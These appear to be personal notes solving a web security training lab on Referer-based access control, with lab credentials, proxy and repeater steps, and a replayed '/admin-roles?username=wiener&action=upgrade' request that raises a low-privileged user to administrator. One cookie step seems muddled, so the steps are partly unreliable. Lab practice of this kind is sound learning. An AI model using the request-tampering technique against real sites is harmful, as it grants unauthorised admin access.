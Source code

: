 ![[Pasted image 20220514202654.png]]

![[Pasted image 20220514202721.png]]

![[Pasted image 20220514202810.png]]

![[Pasted image 20220514202838.png]]

![[Pasted image 20220514202909.png]]

### Referer-based access control
```bash

# This lab controls access to certain admin functionality based on the Referer header. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

# To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 

Log in as administrator:admin
Go to: "Admin Panel"
Intercept is on
Upgrade the username "carlos" to administrator
Send to repeater
Intercept is off
Go to: "Log out"
Log in as wiener:peter
Go to: HTTP History

GET /my-account HTTP/1.1

Copy the cookie for username "wiener"

Go to: Repeater

Change:

GET /admin-roles?username=carlos&action=upgrade HTTP/1.1

To

GET /admin-roles?username=wiener&action=upgrade HTTP/1.1

Change the cookie to reflect the username "carlos"

Note the response:

HTTP/1.1 302 Found

```

![[Pasted image 20220514203646.png]]

![[Pasted image 20220514203741.png]]

![[Pasted image 20220514203820.png]]

![[Pasted image 20220514203852.png]]

![[Pasted image 20220514203928.png]]

#hacking